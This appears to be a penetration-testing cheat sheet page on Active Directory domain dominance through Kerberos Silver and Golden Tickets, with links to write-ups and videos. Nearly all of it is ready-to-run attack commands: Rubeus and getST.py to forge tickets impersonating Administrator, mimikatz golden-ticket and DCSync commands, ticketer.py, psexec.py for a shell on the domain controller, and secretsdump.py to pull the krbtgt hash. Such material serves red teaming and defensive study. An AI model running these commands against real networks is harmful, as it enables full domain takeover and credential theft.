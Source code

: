 # Dominance




## Silver Ticket

- [https://en.hackndo.com/kerberos-silver-golden-tickets/#silver-ticket](https://en.hackndo.com/kerberos-silver-golden-tickets/#silver-ticket)

{% embed url="https://youtu.be/_nJ-b1UFDVM" %}

{% tabs %}
{% tab title="Windows" %}
```
Cmd > Rubeus.exe s4u /domain:megacorp.local /dc:dc1.megacorp.local /user:SRV01$ /rc4:fc525c9683e8fe067095ba2ddc971889 /altservice:http/srv01.megacorp.local /impersonateuser:Administrator /self /ptt
```
{% endtab %}
{% tab title="Linux" %}
```
$ getST.py megacorp.local/'SRV01$' -hashes :fc525c9683e8fe067095ba2ddc971889 -dc-ip 192.168.1.11 -spn ldap/srv01.megacorp.local -impersonate 'Administrator'
```
{% endtab %}
{% endtabs %}




## Golden Ticket

- [https://en.hackndo.com/kerberos-silver-golden-tickets/#golden-ticket](https://en.hackndo.com/kerberos-silver-golden-tickets/#golden-ticket)
- [https://artkond.com/2016/12/18/pivoting-kerberos/](https://artkond.com/2016/12/18/pivoting-kerberos/)
- [https://0xdeaddood.rocks/2023/05/11/forging-tickets-in-2023/](https://0xdeaddood.rocks/2023/05/11/forging-tickets-in-2023/)

{% embed url="https://youtu.be/o98_eRt777Y" %}

{% tabs %}
{% tab title="Windows" %}
```
Cmd > .\mimikatz.exe "kerberos::golden /domain:megacorp.local /user:snovvcrash /sid:<SID> /krbtgt:<NTHASH> /ptt [/startoffset:-10 /endin:60 /renewmax:10080]" "exit"
Cmd > .\mimikatz.exe "lsadump::dcsync /user:megacorp.local\krbtgt /domain:megacorp.local" "exit"
```
{% endtab %}
{% tab title="Linux" %}
```
$ ticketer.py -domain megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 {-nthash <RC4_32> | -aesKey <AES_64> } [-groups '512,513,516,518,519,520'] [-user-id 1337] [-duration 3650] snovvcrash
$ export KRB5CCNAME=`readlink -f snovvcrash.ccache`
$ psexec.py megacorp.local/snovvcrash@DC01.megacorp.local -k -no-pass
$ secretsdump.py megacorp.local/snovvcrash@DC01.megacorp.local -dc-ip 10.10.13.37 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```
{% endtab %}
{% endtabs %}
